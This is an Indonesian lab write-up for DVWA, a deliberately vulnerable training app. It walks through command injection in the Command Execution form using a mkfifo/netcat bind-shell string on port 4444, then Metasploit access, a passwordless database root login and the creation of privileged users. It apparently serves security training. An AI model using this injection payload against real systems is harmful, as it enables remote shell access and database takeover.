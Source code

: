 # DVWA | Lesson 4
## Konfigurasi

Alamat target DVWA `http://10.151.34.170`

## Skenario
Login ke DVWA
Masuk ke menu Command Execution
Masukkan string berikut pada form
```
192.168.1.106; mkfifo /tmp/pipe; sh /tmp/pipe | nc -lp 4444 > /tmp/pipe
```

Berbeda dengan yang terdapat pada tutorial, pada VM exploitable ini perlu ditambahi perintah `-p` diikuti dengan `4444` pada `nc` agar port dapat terbuka.

Selanjutnya masuk ke Backtrack dan jalankan program msfconsole pada terminal
```
# msfconsole
```
![alt text](./l4-bt1.png)
Masukkan perintah seperti berikut, beserta IP dari target, yaitu `10.151.34.170`.
![alt text](./l4-bt2.png)

Setelah itu jalankan perintah `exploit` pada msfconsole.
![alt text](./l4-bt3.png)
Ternyata user yang menjalankan php yaitu `www-data`.


![alt text](./l4-bt4.png)
Proses apache2 dijalankan oleh user `www-data` dan direktori dvwa terdapat pada `/var/www/dvwa`.

![alt text](./l4-bt5.png)
User dari database adalah `root` dan passwordnya tidak ada alias string kosong.

![alt text](./l4-bt6.png)
Selanjutnya eksploitasi database dvwa.

![alt text](./l4-bt7.png)
Menambahkan user.

![alt text](./l4-bt8.png)
Eksplorasi table.

![alt text](./l4-bt9.png)
Membuat user dengan privileges baru.

## Hasil
![alt text](./l4-bt10.png)
